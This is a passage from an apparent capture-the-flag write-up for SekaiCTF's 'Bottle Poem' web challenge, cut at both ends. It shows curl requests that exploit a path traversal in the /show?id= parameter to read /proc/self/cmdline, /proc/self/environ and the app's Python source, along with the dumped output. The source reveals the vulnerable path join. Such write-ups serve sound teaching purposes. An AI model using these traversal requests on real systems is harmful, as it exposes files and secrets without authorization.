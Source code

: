 Very nice! Now we need to figure out exactly what files we might need to leak to find the flag. After trying to just guess the location of `flag.txt` (and then realizing that the organizers said that the flag is an executable), I decided to enumerate some more. On Linux, you can actually leak information about the current process with directory traversal vulnerabilities. We don't know the backend framework, so we don't have an immediate idea of what the server-side program's name is, but we can leak that by reading `/proc/self/cmdline`, the file that stores the command line parameters for the current running process.

```shell
kali@transistor:~/ctf/sekaictf/web_bottle_poem$ curl 'http://bottle-poem.ctf.sekai.team/show?id=../../../proc/self/cmdline' --output -
python3-u/app/app.py
```

I also tried some cheese by reading environment variables, as many times the docker container might store the flag as an environment variable when being built, but that didn't seem to be the case.

```shell
kali@transistor:~/ctf/sekaictf/web_bottle_poem$ curl 'http://bottle-poem.ctf.sekai.team/show?id=../../../proc/self/environ' --output -
KUBERNETES_SERVICE_PORT_HTTPS=443KUBERNETES_SERVICE_PORT=443HOSTNAME=bottle-poem-596fb4c84f-c2dc8PYTHON_VERSION=3.8.12PWD=/PYTHON_SETUPTOOLS_VERSION=57.5.0HOME=/nonexistentLANG=C.UTF-8KUBERNETES_PORT_443_TCP=tcp://10.161.192.1:443GPG_KEY=E3FF2839C048B25C084DEBE9B26995E310250568SHLVL=1KUBERNETES_PORT_443_TCP_PROTO=tcpPYTHON_PIP_VERSION=21.2.4KUBERNETES_PORT_443_TCP_ADDR=10.161.192.1PYTHON_GET_PIP_SHA256=e235c437e5c7d7524fbce3880ca39b917a73dc565e0c813465b7a7a329bb279aKUBERNETES_SERVICE_HOST=10.161.192.1KUBERNETES_PORT=tcp://10.161.192.1:443KUBERNETES_PORT_443_TCP_PORT=443PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/38e54e5de07c66e875c11a1ebbdb938854625dd8/public/get-pip.pyPATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin_=/usr/local/bin/python3
```

At least we know where the `app.py` file is, so that might give us some more insight. Our file read lets us see this
```python
kali@transistor:~/ctf/sekaictf/web_bottle_poem$ curl 'http://bottle-poem.ctf.sekai.team/show?id=../../../app/app.py' --output -
from bottle import route, run, template, request, response, error
from config.secret import sekai
import os
import re

@route("/")
def home():
    return template("index")

@route("/show")
def index():
    response.content_type = "text/plain; charset=UTF-8"
    param = request.query.id
    if re.search("^../app", param):
        return "No!!!!"
    requested_path = os.path.join(os.getcwd() + "/poems", param)
    try:
        with open(requested_path) as f:
            tfile = f.read()
    except Exception as e:
        return "No This Poems"
    return tfile

@error(404)
def error404(error):
    return template("error")

@route("/sign")
def index():
    try:
        session = request.get_cookie("name", secret=sekai)
```